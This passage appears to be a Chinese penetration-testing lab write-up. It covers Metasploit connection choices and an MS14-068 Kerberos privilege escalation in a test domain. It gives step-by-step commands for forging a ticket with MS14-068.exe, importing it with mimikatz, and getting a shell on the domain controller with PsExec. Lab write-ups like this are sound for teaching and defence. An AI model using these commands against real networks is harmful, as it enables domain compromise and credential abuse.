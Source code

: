  注意：这里最好选择正向连接，因为由于目标网段是不出网的，因此如果选择反向连接是无法直接连接到msf这个服务器上的！！！

然后就是漫长的等待msf完成上线的操作： .........................

![截图](27ddbf1ce4bc3be7cf9c918e28be0163.png)

![截图](e18caff4662743e37c995f113a1a90dc.png)

## 0x02 CVE-2014-6324

### 1)背景与原理

普通域成员用户通过MS14-068漏洞生成高权限用户票据，导入内存之后即可连接(10小时有效期)。

### 2）利用

1、首先查看本机的信息：

```shell
shell whoami /user
```

![截图](8e0f5a446cbe63b266108313621ca1a9.png)

2、截取本机密码：

![截图](a408018e0480aafd6fcbef71dc716e78.png)

3、使用ms14-068 生成高权限票据：(我这里是上传到靶机上运行了，当然你可以本地运行）

```shell
shell MS14-068.exe -u webadmin@god.org -s S-1-5-21-1218902331-2157346161-1782232778-1132 -d 192.168.3.21 -p admin!@#45
```

- -d : 就是目标ip
- -s :  就是SID值

![截图](b895589d9564f6903cb9dd45103b8b07.png)

![截图](f2d16c21c1fafcc3567d11607d5f2042.png)

4、然后，我们就可以使用minikatz导入票据进行攻击了，为了方便显示回弹的shell，

```shell
mimikatz kerberos::ptc TGT_webadmin@god.org.ccache
```

5、利用psexec 回弹！！

```cmd
PsExec.exe \\OWA2010CN-God cmd.exe
```

![截图](549d790a434475bf79645c211024ccb9.png)
